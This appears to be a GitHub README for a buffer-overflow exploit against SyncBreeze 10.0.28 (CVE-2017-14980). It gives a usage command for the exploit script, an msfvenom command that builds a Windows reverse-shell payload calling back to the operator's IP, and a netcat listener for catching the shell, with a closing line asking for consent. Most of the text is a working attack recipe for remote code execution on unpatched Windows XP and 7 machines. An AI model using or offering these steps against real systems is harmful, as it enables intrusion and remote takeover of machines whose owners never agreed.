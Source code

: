 # SyncBreeze 10.0.28 Buffer OverFlow for Remote Code Execution [CVE-2017-14980]
POST data buffer overflow, the CVE score is 7.5 but the impact is critical
## How it works?
That easy BoF, rewritten by me, will overwrite the buffer and execute the shellcode
## Vuln machines:
WindowsXP SP3 and Windows7
## Launch:
````~$ python3 SyncBreeze.py <host> <port>````
## Change the ShellCode with your own!!
````~$ sudo ./msfvenom windows/shell_reverse_tcp LHOST=<your ip> LPORT=4444````
## Listen with netcat:
````~$ ncat -lvp 4444````
### Don't pwn any machine without consent!!
